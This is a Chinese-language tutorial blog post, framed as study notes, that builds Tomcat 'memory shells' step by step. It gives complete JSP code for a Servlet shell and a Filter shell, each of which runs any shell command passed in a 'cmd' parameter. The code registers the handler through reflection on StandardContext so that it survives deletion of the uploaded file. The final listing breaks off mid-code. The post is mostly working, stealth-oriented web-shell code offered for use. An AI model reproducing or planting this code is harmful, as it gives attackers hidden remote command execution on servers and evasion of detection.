介绍
Java内存马（Java Memory Shell）是一种利用Java虚拟机（JVM）中的内存对象和反射技术来执行恶意代码的攻击手段。
与传统木马相比，Java内存马具有以下几个优势：
隐藏性更强：Java内存马不需要在受害者主机上创建任何文件，因此可以极大地减少被检测到的风险。它们完全存在于JVM内存中，很难通过常规的病毒扫描程序或防火墙来检测和拦截。
反应速度更快：Java内存马直接利用JVM中已经加载的Java类和对象，在攻击者成功上传恶意代码后即可立即执行，反应速度更快。
跨平台支持更好：由于JVM是跨平台的，因此Java内存马可以在各种操作系统上运行，包括Windows、Linux、macOS等。
内存马包括很多类型，这里以tomcat内存马作为学习
环境准备
在idea中首先创建一个JavaWeb项目

勾上Servlet

然后就完成了一个web项目的创建
我们可以看到idea为我们新建了一个HelloServlet作为例子，同时这里是通过注释的方式来连接url与对应的Servlet的

为了方便学习，我们将利用web.xml的方式修改url与Servlet间的映射关系
1 2 3 4 5 6 7 8 <servlet > <servlet-name > HelloWorld</servlet-name > <servlet-class > com.example.servlet.HelloServlet</servlet-class > </servlet > <servlet-mapping > <servlet-name > HelloWorld</servlet-name > <url-pattern > /hello-servlet</url-pattern > </servlet-mapping >
能正常打开页面则配置成功
接下来我们就来写一个Servlet内存马
Servlet内存马
由于我们要分析tomcat的源码，所以要先导入tomcat的依赖
1 2 3 4 5 <dependency > <groupId > org.apache.tomcat</groupId > <artifactId > tomcat-catalina</artifactId > <version > 8.5.0</version > </dependency >
在正式开始之前我们应该先了解 Java web三大件和Tomcat的架构设计
可以参考：一文看懂内存马 和Tomcat源码初识一 Tomcat整理流程图
Servlet内存马实际上就是注册一个新的Servlet来执行我们的任意命令
我们先按照一个正常的逻辑来理解一下我们要干什么
首先新建一个ShellServlet接收前端发来的cmd命令并回显
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 package com.example.servlet;import java.io.*;import java.util.Scanner;import javax.servlet.ServletConfig;import javax.servlet.ServletException;import javax.servlet.ServletRequest;import javax.servlet.ServletResponse;import javax.servlet.http.*;import javax.servlet.annotation.*;public class ShellServlet extends HttpServlet { public void init (ServletConfig servletConfig) throws ServletException {} public void service (ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException { String cmd = servletRequest.getParameter("cmd" ); boolean isLinux = true ; String osTyp = System.getProperty("os.name" ); if (osTyp != null && osTyp.toLowerCase().contains("win" )) { isLinux = false ; } String[] cmds = isLinux ? new String []{"sh" , "-c" , cmd} : new String []{"cmd.exe" , "/c" , cmd}; InputStream in = Runtime.getRuntime().exec(cmds).getInputStream(); Scanner s = new Scanner (in).useDelimiter("\\a" ); String output = s.hasNext() ? s.next() : "" ; PrintWriter out = servletResponse.getWriter(); out.println(output); out.flush(); out.close(); } public void destroy () { } }
然后将这个ShellServlet注册进tomcat，也就是在web.xml中写入
1 2 3 4 5 6 7 8 <servlet > <servlet-name > Getshell</servlet-name > <servlet-class > com.example.servlet.ShellServlet</servlet-class > </servlet > <servlet-mapping > <servlet-name > Getshell</servlet-name > <url-pattern > /shell</url-pattern > </servlet-mapping >
此时访问/shell并带上cmd参数就可以实现命令执行了

可见要实现以上功能一共分为两步：
1.写一个Servlet马
2.将这个Servlet马注册进tomcat中
我们先写一个Servlet马，创建一个shell.jsp（是的，还是得上传一个jsp才能弄内存马），定义一个Shell2Servlet并复制之前的ShellServlet的内容
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <%! public class Shell2Servlet extends HttpServlet { public void init (ServletConfig servletConfig) throws ServletException {} public void service (ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException { String cmd = servletRequest.getParameter("cmd" ); boolean isLinux = true ; String osTyp = System.getProperty("os.name" ); if (osTyp != null && osTyp.toLowerCase().contains("win" )) { isLinux = false ; } String[] cmds = isLinux ? new String []{"sh" , "-c" , cmd} : new String []{"cmd.exe" , "/c" , cmd}; InputStream in = Runtime.getRuntime().exec(cmds).getInputStream(); Scanner s = new Scanner (in).useDelimiter("\\a" ); String output = s.hasNext() ? s.next() : "" ; PrintWriter out = servletResponse.getWriter(); out.println(output); out.flush(); out.close(); } public void destroy () { } } %>
第一步比较简单，而要实现第二步，我们就得知道tomcat中Servlet的注册流程，也就是要明白tomcat是如何解析web.xml的
从Tomcat源码初识一 Tomcat整理流程图 这个图中我们可以看到对web.xml的解析主要是通过org.apache.catalina.startup.ContextConfig#configureContext方法进行的

在web.xml中的
1 2 3 4 <servlet > <servlet-name > HelloWorld</servlet-name > <servlet-class > com.example.servlet.HelloServlet</servlet-class > </servlet >
对应configureContext方法中的以下内容（约在1316行开始，看起来很长，实际上重要的只有加中文注释的那几行）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 for (ServletDef servlet : webxml.getServlets().values()) { Wrapper wrapper = context.createWrapper(); if (servlet.getLoadOnStartup() != null ) { wrapper.setLoadOnStartup(servlet.getLoadOnStartup().intValue()); } if (servlet.getEnabled() != null ) { wrapper.setEnabled(servlet.getEnabled().booleanValue()); } wrapper.setName(servlet.getServletName()); Map<String,String> params = servlet.getParameterMap(); for (Entry<String, String> entry : params.entrySet()) { wrapper.addInitParameter(entry.getKey(), entry.getValue()); } wrapper.setRunAs(servlet.getRunAs()); Set<SecurityRoleRef> roleRefs = servlet.getSecurityRoleRefs(); for (SecurityRoleRef roleRef : roleRefs) { wrapper.addSecurityReference( roleRef.getName(), roleRef.getLink()); } wrapper.setServletClass(servlet.getServletClass()); MultipartDef multipartdef = servlet.getMultipartDef(); if (multipartdef != null ) { if (multipartdef.getMaxFileSize() != null && multipartdef.getMaxRequestSize()!= null && multipartdef.getFileSizeThreshold() != null ) { wrapper.setMultipartConfigElement(new MultipartConfigElement ( multipartdef.getLocation(), Long.parseLong(multipartdef.getMaxFileSize()), Long.parseLong(multipartdef.getMaxRequestSize()), Integer.parseInt( multipartdef.getFileSizeThreshold()))); } else { wrapper.setMultipartConfigElement(new MultipartConfigElement ( multipartdef.getLocation())); } } if (servlet.getAsyncSupported() != null ) { wrapper.setAsyncSupported( servlet.getAsyncSupported().booleanValue()); } wrapper.setOverridable(servlet.isOverridable()); context.addChild(wrapper); }
而web.xml中的
1 2 3 4 <servlet-mapping > <servlet-name > HelloWorld</servlet-name > <url-pattern > /hello-servlet</url-pattern > </servlet-mapping >
对应configureContext方法中的以下内容（约在1365行开始）
1 2 3 4 for (Entry<String, String> entry : webxml.getServletMappings().entrySet()) { context.addServletMapping(entry.getKey(), entry.getValue()); }
注：这里注册完了以后HelloServlet还没有实例化，只有在访问相关页面之后才会实例化
那我们要想实现注册就只需要将封装了Servlet的wrapper放到content中，而这个content实际上是StandardContext类，所以我们要先获取StandardContext
那如何获取呢？
StandardContext实际上在ServletContext里，ServletContext可以从request中获取，如下图所示

可见servletContext包含applicationContext，applicationContext包含standardContext,所以获取standardContext的代码为：
1 2 3 4 5 6 7 8 ServletContext servletContext = request.getServletContext();Field applicationField = servletContext.getClass().getDeclaredField("context" );applicationField.setAccessible(true ); ApplicationContext applicationContext = (ApplicationContext) applicationField.get(servletContext);Field standardContextField = applicationContext.getClass().getDeclaredField("context" );standardContextField.setAccessible(true ); StandardContext context = (StandardContext) standardContextField.get(applicationContext);
获取到standardContext后，接下来只需要将wrapper放到standardContext里面就完成注册了
1 2 3 4 5 6 7 8 Wrapper wrapper = context.createWrapper();wrapper.setName("Shell2Servlet" ); wrapper.setServletClass(Shell2Servlet.class.getName()); wrapper.setServlet(new Shell2Servlet ()); context.addChild(wrapper); context.addServletMapping("/shell2" , "Shell2Servlet" );
那么完整的shell.jsp如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 <%@ page contentType="text/html;charset=UTF-8" language="java" %> <html> <head> <title>Title</title> </head> <body> <%@ page import ="java.io.IOException" %> <%@ page import ="java.io.InputStream" %> <%@ page import ="java.util.Scanner" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="java.io.PrintWriter" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="org.apache.catalina.core.ApplicationContext" %> <%@ page import ="org.apache.catalina.Wrapper" %> <%! public class Shell2Servlet extends HttpServlet { public void init (ServletConfig servletConfig) throws ServletException {} public void service (ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException { String cmd = servletRequest.getParameter("cmd" ); boolean isLinux = true ; String osTyp = System.getProperty("os.name" ); if (osTyp != null && osTyp.toLowerCase().contains("win" )) { isLinux = false ; } String[] cmds = isLinux ? new String []{"sh" , "-c" , cmd} : new String []{"cmd.exe" , "/c" , cmd}; InputStream in = Runtime.getRuntime().exec(cmds).getInputStream(); Scanner s = new Scanner (in).useDelimiter("\\a" ); String output = s.hasNext() ? s.next() : "" ; PrintWriter out = servletResponse.getWriter(); out.println(output); out.flush(); out.close(); } public void destroy () { } } %> <% ServletContext servletContext = request.getServletContext(); Field applicationField = servletContext.getClass().getDeclaredField("context" ); applicationField.setAccessible(true ); ApplicationContext applicationContext = (ApplicationContext) applicationField.get(servletContext); Field standardContextField = applicationContext.getClass().getDeclaredField("context" ); standardContextField.setAccessible(true ); StandardContext context = (StandardContext) standardContextField.get(applicationContext); Wrapper wrapper = context.createWrapper(); wrapper.setName("Shell2Servlet" ); wrapper.setServletClass(Shell2Servlet.class.getName()); wrapper.setServlet(new Shell2Servlet ()); context.addChild(wrapper); context.addServletMapping("/shell2" , "Shell2Servlet" ); %> </body> </html>
先访问shell.jsp,此时已经将Shell2Servlet注册进了tomcat容器
再访问shell2并传入cmd参数，发现命令被成功执行，

然后我们将shell.jsp给删了（服务不重启）

此时我们访问shell2，发现还是可以执行命令，内存马的优点就在于这里，马不依靠文件存在

Filter内存马
Filter作为Java web三大件之一，是一种可以对请求和响应进行拦截和处理的组件。Filter可以实现许多功能，如登录控制，权限管理，过滤敏感词汇等。Filter的使用需要实现Filter接口，重写doFilter方法，并且配置拦截路径。拦截路径可以用注解@WebFilter或者xml方式来配置。在doFilter方法中，我们可以对ServletRequest和ServletResponse对象进行操作，也可以调用FilterChain对象的doFilter方法来放行请求和响应。Filter的执行顺序是按照配置顺序来决定的，先配置的先执行。
和servlet类似，我们先按正常操作添加一个Myfilter.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 package com.example.filter;import javax.servlet.*;import java.io.IOException;public class Myfilter implements Filter { @Override public void init (FilterConfig filterConfig) throws ServletException { } @Override public void doFilter (ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException { System.out.println("Filter被执行了" ); filterChain.doFilter(servletRequest, servletResponse); } @Override public void destroy () { } }
在webxml中绑定url
1 2 3 4 5 6 7 8 <filter > <filter-name > Myfilter</filter-name > <filter-class > com.example.filter.Myfilter</filter-class > </filter > <filter-mapping > <filter-name > Myfilter</filter-name > <url-pattern > /hello</url-pattern > </filter-mapping >
那么在访问/hello的时候doFilter就会被调用

那我们还是按照之前的方法来构建doFilter内存马
首先我们新建一个shell2.jsp，同时构造一个恶意的Shellfilter
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 public class Shellfilter implements Filter { @Override public void init (FilterConfig filterConfig) throws ServletException { } @Override public void doFilter (ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException { String cmd = servletRequest.getParameter("cmd" ); boolean isLinux = true ; String osTyp = System.getProperty("os.name" ); if (osTyp != null && osTyp.toLowerCase().contains("win" )) { isLinux = false ; } String[] cmds = isLinux ? new String []{"sh" , "-c" , cmd} : new String []{"cmd.exe" , "/c" , cmd}; InputStream in = Runtime.getRuntime().exec(cmds).getInputStream(); Scanner s = new Scanner (in).useDelimiter("\\a" ); String output = s.hasNext() ? s.next() : "" ; PrintWriter out = servletResponse.getWriter(); out.println(output); out.flush(); out.close(); } @Override public void destroy () { } }
找到org.apache.catalina.startup.ContextConfig#configureContext中和filter有关的部分如下

关键的语句就两条
1 2 context.addFilterDef(filter); context.addFilterMap(filterMap);
其中的filter对应的是org.apache.tomcat.util.descriptor.web.FilterDef类，filterMap对应的是
org.apache.tomcat.util.descriptor.web.FilterMap类
我们可以先debug看看添加操作的时候filter和filterMap里面有哪些属性值


在shell2.jsp中对应的操作为：
1 2 3 4 5 6 7 8 9 10 11 12 13 FilterDef filterDef = new FilterDef ();filterDef.setFilterClass(Shellfilter.class.getName()); filterDef.setFilterName("Shellfilter" ); filterDef.setFilter(new Shellfilter ()); standardContext.addFilterDef(filterDef); FilterMap filterMap = new FilterMap ();filterMap.setFilterName("Shellfilter" ); filterMap.addURLPattern("/1y0ng" ); filterMap.setDispatcher(DispatcherType.REQUEST.name()); standardContext.addFilterMap(filterMap);
通过上述代码，按理来说在访问/1y0ng页面的时候传入参数cmd就应该可以执行相关的命令了，但实际上会失败，为什么呢？原因是少了一个filterConfig
我们来比较一下standardContext在只进行到configureContext方法和服务器初始化完成后之间的区别

在看看执行完shell2.jsp后的standardContext

可见在执行完shell2.jsp后只将filterDef和filterMap放到了standardContext的filterDefs和filterMaps中，而filterConfigs中却依旧没有Shellfilter，所以导致Shellfilter没有成功注册到tomcat中
filterConfig对应的类为org.apache.catalina.core.ApplicationFilterConfig类，同时还包含了filterDef和对应的standardContext（从ApplicationFilterConfig的构造方法里可以看出）
那么对于standardContext的一个结构图为：

所以这里要将filterDef和standardContext放到filterConfig中
1 2 3 4 5 Class configclass = Class.forName("org.apache.catalina.core.ApplicationFilterConfig" );Constructor configconstructor = configclass.getDeclaredConstructor(Context.class,FilterDef.class);configconstructor.setAccessible(true ); FilterConfig filterConfig = (FilterConfig) configconstructor.newInstance(standardContext,filterDef);
再将filterConfig放到filterConfigs中
1 2 3 4 5 Field configsfield = standardContext.getClass().getDeclaredField("filterConfigs" );configsfield.setAccessible(true ); Map filterConfigs = (Map) configsfield.get(standardContext);filterConfigs.put("Shellfilter" ,filterConfig);
故完整的shell2.jsp为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 <%@ page import ="java.io.IOException" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="org.apache.catalina.core.ApplicationContext" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="java.lang.reflect.Constructor" %> <%@ page import ="org.apache.tomcat.util.descriptor.web.FilterDef" %> <%@ page import ="org.apache.tomcat.util.descriptor.web.FilterMap" %> <%@ page import ="java.util.Map" %> <%@ page import ="org.apache.catalina.Context" %> <%@ page import ="java.io.InputStream" %> <%@ page import ="java.io.PrintWriter" %> <%@ page import ="java.util.Scanner" %> <%@ page contentType="text/html;charset=UTF-8" language="java" %> <html> <head> <title>Title</title> </head> <body> <%! public class Shellfilter implements Filter { @Override public void init (FilterConfig filterConfig) throws ServletException { } @Override public void doFilter (ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException { String cmd = servletRequest.getParameter("cmd" ); boolean isLinux = true ; String osTyp = System.getProperty("os.name" ); if (osTyp != null && osTyp.toLowerCase().contains("win" )) { isLinux = false ; } String[] cmds = isLinux ? new String []{"sh" , "-c" , cmd} : new String []{"cmd.exe" , "/c" , cmd}; InputStream in = Runtime.getRuntime().exec(cmds).getInputStream(); Scanner s = new Scanner (in).useDelimiter("\\a" ); String output = s.hasNext() ? s.next() : "" ; PrintWriter out = servletResponse.getWriter(); out.println(output); out.flush(); out.close(); } @Override public void destroy () { } } %> <% ServletContext servletContext = request.getServletContext(); Field applicationField = servletContext.getClass().getDeclaredField("context" ); applicationField.setAccessible(true ); ApplicationContext 